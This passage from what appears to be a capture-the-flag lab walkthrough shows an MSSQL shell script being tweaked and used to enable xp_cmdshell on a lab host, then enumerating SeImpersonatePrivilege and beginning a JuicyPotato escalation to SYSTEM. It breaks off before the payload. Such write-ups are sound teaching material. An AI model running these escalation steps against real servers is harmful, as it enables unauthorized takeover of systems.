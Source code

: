     
    #cmd = input("CMD " + username+"@"+computername+" "+cwd+"> ").rstrip("\n").replace("'", "''")
    cmd = input(cwd+"> ").rstrip("\n").replace("'", "''")
    

Now I can run it and it connects:

    
    
    root@kali# rlwrap python alamot_mssql_shell.py 
    Successful login: df@10.13.38.11
    Trying to enable xp_cmdshell ...
    C:\WINDOWS\system32>
    

I won’t have ctrl-c to kill something on target without exiting the shell, but
with `rlwrap` I’ve got arrow keys, it’s stateful, and overall a decent
experience. It is running as poo_public:

    
    
    C:\WINDOWS\system32> whoami
    nt service\mssql$poo_public
    

### Priv to SYSTEM

This is the path I originally took, until I thought to try the administrator
creds over WinRM. It doesn’t look like this will work today, as the host is
Server 2019, and Defender eats the JuicyPotato binary very quickly on
uploading it. I’ll do my best to explain the path with the notes I have from
15 months ago.

#### Enumeration

`whoami /priv` shows that (unsurprisingly since it’s a service account) this
account has `SEImpersonatePrivilege`:

    
    
    C:\> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    

#### JuicyPotato

[JuicyPotato](https://github.com/ohpe/juicy-potato) is an exploit to move from
`SEImpersonalPrivilege` to SYSTEM. I’ll need a `.bat` file as a payload. To
test it, I’ll just get a dir listing of the administrator’s desktop:
